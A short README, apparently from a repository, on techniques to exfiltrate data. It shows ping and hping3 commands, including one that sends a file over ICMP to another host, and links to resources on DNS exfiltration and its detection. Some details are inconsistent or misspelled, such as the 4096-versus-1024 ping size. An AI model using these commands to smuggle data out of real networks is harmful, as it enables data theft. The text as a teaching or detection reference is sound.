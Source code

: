 # Techniques to exfiltrate data

## ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```$ ping 127.0.0.1 -s 1024```

The payload of 4096 is junk **until** you add your own payload:

```$sudo hping3 127.0.0.1 -1 --sign="Hello world!"```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## DNS protocol

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)

#### Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664